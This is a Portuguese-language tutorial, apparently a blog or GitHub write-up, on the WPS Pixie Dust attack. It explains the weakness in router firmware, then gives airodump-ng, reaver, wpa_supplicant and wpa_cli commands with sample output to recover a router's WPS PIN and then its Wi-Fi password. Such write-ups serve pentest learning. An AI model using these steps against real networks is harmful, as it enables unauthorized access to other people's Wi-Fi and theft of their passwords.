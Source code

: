 ```yaml
---
title: 'pixie-dust attack'
date: '2022-09-18'
description: 'Nesse artigo faço um pequena demonstração de como exlporar uma falha do protocolo WPS de roteadores'
---
```



## pegando psk com pixie-dust attack 

texto original: https://github.com/geleiaa/wirelesssss/blob/main/WPS_pixiedust.md

#### O pixie dust attack consiste em realizar a quebra do WPS de maneira offline. O método offline envolve tentar apenas um PIN aleatório e coletar algumas informações durante o processo. Esses dados podem ser usados posteriormente para tentar o ataque pixie-dust.
#### A vulnerabilidade está na mensagem M3: no corpo da mensagem é utilizado duas chaves AES de 128 bits randômicas (E-S1 e E-S2) para encriptação da primeira e da segunda metade do PIN, respectivamente. Se as duas chaves forem descobertas, é possível recuperar o número PIN com um ataque offline em menos de um segundo, em vez de “chutar” o número PIN no roteador, processo que pode levar de 8 a 12 horas (mais informações sobre o brute-force offline aqui: [Hacklu2014_offline_bruteforce_attack_on_wps.pdf](http://archive.hack.lu/2014/Hacklu2014_offline_bruteforce_attack_on_wps.pdf)

>___

## Parte pratica
Com a interface em modo monitor você pode "sniffar" as redes em volta para identificar um alvo em potêncial, usando o airodump-ng adicionando a flag **--wps** dessa forma:

#### *sudo airodump-ng --wps (interface)*


> Repare na coluna WPS 

```bash
 CH  9 ][ Elapsed: 1 min ][ 2007-04-26 17:41 ]
                                                                                                            
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER  WPS  AUTH  ESSID
                                                                                                             
 00:09:5B:1C:AA:1D   11  16       10        0    0  11  54.  OPN          2.0           NETGEAR                         
 00:14:6C:7A:41:81   34 100       57       14    1   9  11e  WEP  WEP     1.0           bigbear 
 00:14:6C:7E:40:80   32 100      752       73    2   9  54   WPA  TKIP    2.0    PSK    teddy                             
                                                                                                            
 BSSID              STATION            PWR   Rate   Lost  Packets  Notes  Probes
                                
 00:14:6C:7A:41:81  00:0F:B5:32:31:31   51   36-24    2       14
 (not associated)   00:14:A4:3F:8D:13   19    0-0     0        4           mossy 
 00:14:6C:7A:41:81  00:0C:41:52:D1:D1   -1   36-36    0        5
 00:14:6C:7E:40:80  00:0F:B5:FD:FB:C2   35   54-54    0       99           teddy
```


Os APs com o WPS ativado vão aparecer nessa coluna junto com a versão do wps que o AP possui. Quando o wps está desativado essa coluna ficara vazia.

>___

Depois de ter identificado seu alvo, a ferramenta para fazer o ataque foi a *Reaver* (link no final da pg) com o seguinte comando:
  

#### *reaver -i (interface) -c (channel) -b (mac do ap) -vv -K* (precisa da flag -vv)

O resultado pode variar um pouco porque depende muito do roteador que está sendo atacado. Essa falha é relativa ao firmware do roteador, não sendo todos os roteadores vulneráveis. Você pode ver alguns exemplos de saida aqui -> https://forums.kali.org/showthread.php?25123-Reaver-modfication-for-Pixie-Dust-Attack ou pesquisar por conta própria... mas saída/resultado que deu certo pra mim foi semelhante a essa:

```bash
$ sudo reaver -i <interface> -c <channel> -b 01:D0:30:4A:49:45 -vv -K 1

Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

[+] Switching wlan0 to channel 2
[+] Waiting for beacon from 01:D0:30:4A:49:45
[+] Received beacon from 01:D0:30:4A:49:45
[+] Vendor: RalinkTe
[+] Trying pin "12345670"
[+] Sending authentication request
[!] Found packet with bad FCS, skipping...
[+] Sending association request
[+] Associated with 01:D0:30:4A:49:45 (ESSID: "nome qualquer")
[+] Sending EAPOL START request
[+] Received identity request
[+] Sending identity response
[+] Received M1 message
[+] Sending M2 message
executing pixiewps -e 
313ff74331338ed2d66cc580c997ee805df43626d3dfda23328688e110e5676b7aa9d36640956c1d5b712835a0b07a7ec2ac2363e44336232cf5c11517096bad3c95bc2db3f537c41cf0a80036e
5b680e3e1e130a9303c14f77abca481e4911f590148387c6dc2839e2820a028f9d9c0767d25216c01260c011259cbd30c846ada8da47e5dc9d3dbe99953d9f8ef547d42b3152f581e790aae608c
6b112aac298cb121a60b6ec8849f23497234685b05b53a632526765dbf12642ed0ee8213fb -s c6987c052c458512a2972cfacc923e4c61c9502723676b9493d1b783062ecg16 -z 
72e3a7f04f5eb1cdd4602fb15443099f82d56a02ccad15774ea873c84b4b1b0b -a 3c63e889ae1d26a4441e2f9fbf7b673ff4aee85889383d88dc3707253d155d6b -n 
db396a9e4066be20697a0e236d3aaef7 -r 
29722c42863986dd84a965db99fca766e49c04e58c70f3cc0526b1d6efa0798d3a8023d533f87ea70g6551e50274d40e6c19dd6b3842b496e8c5fc2efc62dd67dc0ad5276aa21321fb68a70bbe6
9d6d6f27e5fb61ff29411a35c9d8e7084d8920cba3656a628ed5e7559ce53804ed85ea840221a73e8fb277c1ff86be187fb4008608c1f086637b045078cfa4c5dfe797d10d866322331866a6cf8
1651af877ad5f074be7c94a5db570d9c467dbf6aa048b48e16bfe98a265657a764b4d09fa7a

 Pixiewps 1.4

 [?] Mode:     1 (RT/MT/CL)
 [*] Seed N1:  0x2e6f2d71
 [*] Seed ES1: 0x7f3d488f
 [*] Seed ES2: 0x4104ca5d
 [*] PSK1:     e7868366f236b343dc0777209b87a214
 [*] PSK2:     95a24c483176fadddc4469a305e893b2
 [*] ES1:      3dd1a7d64b65cbe1bd80ab4359css07e
 [*] ES2:      5502dec86e7ae960a247f6b8aa9c513d
 [+] WPS pin:  18630248   <==== PIN AQUI

 [*] Time taken: 0 s 294 ms
``` 

(você pode executar o comando "pixiewps" sugerido pela própria ferramenta, que o resultado trará o mesmo pin recuperado)

>___

Dependendo do resultado do ataque, o reaver consegue recuperar apenas o PIN do WPS como mostrado acima. Nos meus testes foi esse resultado que consegui, então a idéia é essa: *recuperar o PIN com o ataque offline pixie-dust, depois se conectar ao AP com o pin recuperado usando o passo a passo abaixo, para depois pegar o psk*, vam bora!!!

>___

#### 1. Crie o arquivo com o nome *wpa_supplicant.conf* no diretório */etc/* e nesse arquivo vão as seguintes linhas:

```bash
ctrl_interface=/var/run/wpa_supplicant
  
ctrl_interface_group=0

update_config=1
```  

#### 2. Inicie o wpa_supplicant, com o arquivo de configuração */etc/wpa_supplicant.conf* com o seguinte comando:

```bash
$ wpa_supplicant -Dwext -iwlan0 -c /etc/wpa_supplicant.conf
```

  
#### 3. Em outro terminal inicie o *wpa_cli* para realizar a conexão ao AP por meio do número PIN com o seguinte comando:

```bash
$ wpa_cli wps_reg 74:EA:3A:E1:E8:66 02283470
                    (mac do ap)     (pin wps)
```

  
  
#### 4. O wpa_supplicant fará a conexão com AP. No terminal em que o *wpa_supplicant* foi iniciado será retornado uma mensagem de que a conexão foi bem-sucedida:

```bash
$ wpa_supplicant -Dwext -iwlan0 -c /etc/wpa_supplicant.conf
ioctl[SIOCSIWENCODEEXT]: Invalid argument
ioctl[SIOCSIWENCODEEXT]: Invalid argument
wlan0: Failed to initiate AP scan
wlan0: Trying to associate with 74:ea:3a:e1:e8:66 (SSID='TP-LINK_E1E866' freq=2462 MHz)
wlan0: Associated with 74:ea:3a:e1:e8:66
wlan0: WPA: Key negotiation completed with 74:ea:3a:e1:e8:66 [PTK=CCMP GTK=CCMP]
wlan0: CTRL-EVENT-CONNECTED - Connection to 74:ea:3a:e1:e8:66
completed (auth) [id=1 id_str=]
```
  
  
#### 5. Visualize o conteúdo do arquivo */etc/wpa_supplicant.conf* com a senha do AP:

```bash
$ cat /etc/wpa_supplicant.conf
network={
ssid="TP-LINK_E1E866"
bssid=74:ea:3a:e1:e8:66
psk="senha123" <----- AQUI Ó
proto=RSN
key_mgmt=WPA-PSK
pairwise=CCMP
auth_alg=OPEN
}
```

referencia:
- https://novatec.com.br/livros/pentest-redes-sem-fio/
- https://en.wikipedia.org/wiki/Wi-Fi_Protected_Access#WPS_PIN_recovery
- https://en.wikipedia.org/wiki/Wi-Fi_Protected_Setup
- https://github.com/wiire-a/pixiewps
- https://github.com/t6x/reaver-wps-fork-t6x
- https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-(Offline-WPS-Attack)

